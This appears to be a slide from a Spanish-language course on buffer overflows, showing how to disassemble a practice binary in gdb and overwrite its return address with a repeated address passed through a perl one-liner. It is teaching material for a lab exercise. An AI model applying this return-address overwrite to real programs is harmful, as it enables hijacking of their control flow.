

# 0x310 buffer overflows
$ gdb -q Ej_overflow_2
(gdb) disassemble main
Identificar las direcciones de llamadas a printf. Pueden ser valores como 0x08048585; 0x08048595; 0x080485a5. Luego:

$ ./Ej_overflow_2 $(perl -e 'print "\x7d\x85\x04\x08"x10')

Probar imprimir variantes del mensaje...